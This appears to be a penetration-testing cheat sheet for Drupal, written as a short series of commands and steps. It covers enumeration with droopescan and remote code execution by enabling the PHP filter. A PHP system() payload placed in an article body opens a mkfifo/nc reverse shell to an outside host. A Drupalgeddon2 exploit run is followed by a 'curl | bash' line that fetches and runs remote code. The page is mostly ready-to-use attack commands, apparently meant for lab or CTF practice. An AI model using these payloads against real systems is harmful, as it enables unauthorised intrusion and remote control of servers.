 # Drupal

## Drupal

### Drupal Enumeration

We can use droopescan:

```bash
droopescan scan drupal -u http://10.10.10.102
droopescan scan drupal http://$target -t 32
```

### Drupal RCE

First: Modules -> Enable PHP filter&#x20;

Second: Add content -> Article

Then listen in a port of your choosing :

```
nc -lvnp 443
```

Afterward in the Drupal Article **Body** add this payload:

```bash
<?php system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.8 443 >/tmp/f"); ?>
```

Next, in the **Text Format**, we select **PHP code.**

Finally, we click on the **Preview** button.

## Drupal Exploits

### Druppalgeddon

```
ruby druppalgeddon2.rb 10.10.10.233
> curl -s 10.10.14.20 | bash
```
